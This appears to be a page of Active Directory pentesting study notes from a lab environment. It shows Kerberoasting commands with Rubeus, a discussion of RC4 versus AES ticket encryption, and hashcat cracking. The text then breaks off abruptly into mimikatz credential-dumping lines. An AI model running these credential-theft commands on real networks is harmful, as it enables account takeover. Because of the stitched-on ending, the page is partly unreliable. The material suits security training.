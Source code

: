 We can use Rubeus to gather some stats:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /stats
```

We can use Rubeus to request tickets for accounts with the **admincount** attribute set to **1**. Specify the `/nowrap` flag so the hash can be easily copied:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Encryption Types 

Kerberoasting tools typically request **RC4 encryption** when performing the attack and initiating TGS-REQ requests. RC4 is weakier and easier to crack offline, than other encryption algorithms like AES-128 or AES-256. Kerberoasting will usually retrieve hashes that begins with **$krb5tgs$23$**, and RC4 (type 23) ecnrypted ticket. It is possible to crack AES-128 (type 17) and AES-256 (type 18) but it will be time consuming.

Let's see an example. Getting the following ticket:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /user:test1 /nowrap

...
[*] Hash                   : $krb5tgs$23$*test1...
```

We can see it's type 23. We can check the **msDS-SupportedEncryptionTypes**. If it is set at **0** means the encryption is not defined and set default as **RC4_HMAC_MD5**:
```console
PS C:\zeropio> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
test1/kerberoast.inlanefreight.local                            0 testspn
```

If it is set to **24** it's mean that AES 128/256 encryption are the only ones supported. If we found the type **18** we will need to use hashcat mode 19700:
```console
zero@pio$ hashcat -m 19700 hash <WORDLIST>
```

---

# Access Control List (ACL) Abuse Primer 

ACLs are lists that define who has access to which asset/resource and the level of access they are provisioned. The settings are called **Access Control Entities** (**ACEs**). Each ACE maps back to an object of the AD. There are two types:
- **Discretionary Access Control List** (**DACL**): defines which security principals are granted or denied access to an object
- **System Access Control Lists** (**SACL**): allow administrators to log access attempts made to secured objects


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm